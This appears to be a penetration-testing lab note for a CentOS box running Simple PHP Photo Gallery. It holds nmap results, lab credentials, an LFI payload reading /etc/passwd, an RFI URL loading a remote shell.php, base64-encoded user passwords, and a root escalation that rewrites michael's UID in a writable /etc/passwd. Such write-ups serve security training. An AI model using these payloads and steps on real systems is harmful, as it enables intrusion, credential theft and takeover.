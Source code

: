 # Box IP: 192.168.244.58

---

## System Info
- **OS/Tech:** CentOS 7, Apache 2.4.6 (httpd), PHP 5.4.16  
- **App:** Simple PHP Photo Gallery v0.8

---

## Credentials
- **User:** `michael`  
- **Password:** `HockSydneyCertify123`

---

##  Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service          | Version / Notes                              |
| ------- | ----- | ---------------- | --------------------------------------------- |
| **21**  | open  | ftp              | vsftpd 3.0.2 – anonymous YES (no interesting files) |
| **22**  | open  | ssh              | OpenSSH 7.4                                   |
| **80**  | open  | http             | Apache 2.4.6 + PHP 5.4.16                     |
| **111** | open  | rpcbind          | RPC #100000 (no RCP creds known)              |
| **139** | open  | netbios-ssn      | Samba smbd 3.x–4.x (enum4linux → users)       |
| **445** | open  | netbios-ssn      | Samba smbd (same workgroup)                  |
| **3306**| open  | mysql            | MySQL (no anonymous access)                   |
| **33060**|open  | mysqlx           | MySQL X Protocol                             |

---

##  Exploits & Findings

### 1. LFI
```text
http://192.168.244.58/image.php?img=../../../etc/passwd%00
```
michael	1000	1000	/home/michael	/bin/bash 

### 2.RFI
http://192.168.244.58/image.php?img=http://192.168.45.183/shell.php

### 3. Database Credentials 
SELECT * FROM users;

| username | password                                     |
-----------|----------------------------------------------|
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |


-- DB password: MalapropDoffUtilize1337

etc/passwd is writable by michael....

cp /etc/passwd /tmp/passwd.bak
sed -i 's/^michael:x:1000:1000:/michael:x:0:0:/' /etc/passwd
grep '^michael:' /etc/passwd
su  michael
whoami  # → root


